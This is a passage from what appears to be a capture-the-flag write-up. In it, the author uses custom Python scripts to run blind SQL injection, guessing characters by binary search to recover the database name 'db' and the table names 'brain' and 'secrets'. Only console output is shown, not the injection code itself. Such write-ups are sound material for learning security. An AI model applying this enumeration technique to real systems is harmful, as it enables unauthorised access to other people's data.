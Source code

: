 I already knew the databse name was 'db' from the error message I got earlier. And my script confirmed it:
```
$ python get_db_name.py 
Guessing 1
Guessing 2
Guessing 3
Length of database name is: 2
Guessing 95
Guessing 111
Guessing 103
Guessing 99
Guessing 101
Guessing 100
Guessing 100
Guessing 99
The ascii char is: d
Guessing 95
Guessing 111
Guessing 103
Guessing 99
Guessing 97
Guessing 98
Guessing 98
Guessing 97
The ascii char is: b
[100, 98]
db
```


Using that script I branched off, changing the sql injection strings to get table names.
The first two tables I found were:
brain
secrets
```
$ python get_table_names.py 
Guessing 1
...
Guessing 8
Length of table name is: 7
...
The ascii char is: s
...
The ascii char is: e
...
The ascii char is: c
...
The ascii char is: r
...
The ascii char is: e
...
The ascii char is: t
...
The ascii char is: s
[115, 101, 99, 114, 101, 116, 115]
secrets
```

